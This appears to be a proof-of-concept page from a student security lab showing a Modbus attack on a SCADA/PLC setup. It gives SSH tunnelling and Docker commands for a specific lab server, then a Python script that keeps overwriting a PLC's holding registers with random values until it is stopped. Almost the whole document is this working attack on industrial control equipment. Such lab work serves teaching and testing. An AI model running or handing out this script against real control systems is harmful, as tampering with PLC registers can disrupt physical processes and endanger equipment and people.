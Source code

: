 # Proof of concept
- Connect to the server with `ssh -D 1080 mcsestudent@145.52.126.50`
- Enter the Scada-LTS container with `sudo docker exec -it scadalts /bin/bash`
- Install pip and [pymodbus](https://pypi.org/project/pymodbus/)

```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```

- Run the code

```sh
python3 test.py
```

![](img/random_modbus.png)
